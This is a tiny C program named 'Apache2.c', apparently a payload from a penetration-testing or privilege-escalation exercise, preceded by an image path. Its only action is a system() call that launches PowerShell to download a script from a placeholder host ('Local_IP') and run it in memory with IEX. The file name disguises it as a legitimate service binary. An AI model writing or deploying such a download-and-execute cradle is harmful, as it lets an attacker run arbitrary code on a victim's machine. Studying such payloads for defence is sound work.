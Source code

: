 
/* Apache2.c */
#include<stdio.h>
main()
{
system("powershell.exe \"IEX ((new-object net.webclient).downloadstring('http://Local_IP/powershellfile.txt '))\"");
return 0;
}
